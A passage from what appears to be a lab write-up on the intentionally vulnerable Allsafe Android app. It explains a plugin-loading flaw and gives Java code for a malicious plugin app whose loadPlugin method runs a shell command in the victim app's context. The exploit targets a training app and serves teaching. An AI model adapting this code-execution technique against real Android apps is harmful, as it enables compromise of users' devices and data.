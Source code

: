 In this above code, the app obtains the `ClassLoader` of any app whose package begins with `infosecadventures.allsafe`. It then tries to find `infosecadventures.allsafe.plugin.Loader` and calls its `loadPlugin` method.<br />
The main issue here is that an attacker can create their own app with a package name that begins with the right prefix, create the specified class with the `loadPlugin` method, and in that method, we can use the `Runtime` object to get code execution in the context of the victim app (Allsafe).<br />

The exploit code for this app is pretty straightforward. I created a new Android application with package name `infosecadventures.allsafe.plugin`, created a class called `Loader`, and below is the code of `Loader.java`:
```java
package infosecadventures.allsafe.plugin;

import androidx.appcompat.app.AppCompatActivity;
import android.os.Bundle;

public class Loader extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_loader);
    }

    public static Object loadPlugin(){
        try {
            Runtime.getRuntime().exec("touch /data/data/infosecadventures.allsafe/compromised1337").waitFor();
        } catch (Exception e){
            throw new RuntimeException(e);
        }
        return null;
    }
}
```

Finally, build and install the app on your device, open `Allsafe`, and then check the data dir to find that `compromised1337` was created with the UID of `Allsafe`.

![56](/assets/images/Android/Allsafe/56.png)
